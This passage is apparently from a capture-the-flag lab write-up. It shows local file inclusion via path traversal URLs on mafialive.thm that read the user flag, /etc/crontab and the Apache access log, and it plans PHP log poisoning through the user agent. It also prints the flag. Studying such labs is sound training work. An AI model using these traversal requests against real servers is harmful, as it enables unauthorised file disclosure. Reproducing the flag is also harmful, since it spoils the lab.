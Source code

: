 

We see that we have a user `archangel` 
Doesn't seem to have an ssh key. I can retrieve the user flag with

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././home/archangel/user.txt
```

```
thm{lf1_t0_rc3_1s_tr1cky}
```

But then how do we get a shell ? hmm

Looking at `crontab` with

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././etc/crontab
```

```
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
*/1 *   * * *   archangel /opt/helloworld.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

Let's take a look at `/opt/helloworld.sh` 

```bash
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
```

Hmmm, not much help. We would somehow need to change this script file ?
It is runned as `archangel` user. it's probably the way to pivot to the user and not the initial foothold.

Let's look at log files ! Maybe we can inject some php inside our useragent and get a shell
We can access the log file with

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././var/log/apache2/access.log
```
